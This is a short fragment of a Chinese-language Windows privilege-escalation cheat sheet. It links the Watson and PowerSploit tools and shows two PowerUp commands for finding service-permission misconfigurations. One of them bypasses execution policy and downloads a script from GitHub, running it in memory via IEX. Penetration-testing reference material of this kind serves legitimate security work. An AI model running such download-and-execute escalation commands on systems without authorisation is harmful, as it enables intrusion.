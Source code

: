 [https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

## [](#windows-%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF%E5%88%A9%E7%94%A8)Windows 配置错误利用

### [](#%E7%B3%BB%E7%BB%9F%E6%9C%8D%E5%8A%A1%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E9%94%99%E8%AF%AF)系统服务权限配置错误

#### [](#powerup)powerup

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -Command "&{Import-Module .\PowerUP.ps1;Invoke-AllChecks}"<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Invoke-AllChecks"<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200213110922.png-water_print](assets/1708582736-5737ba33d8a61fa1694477044136e2a2.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200213110922.png-water_print")
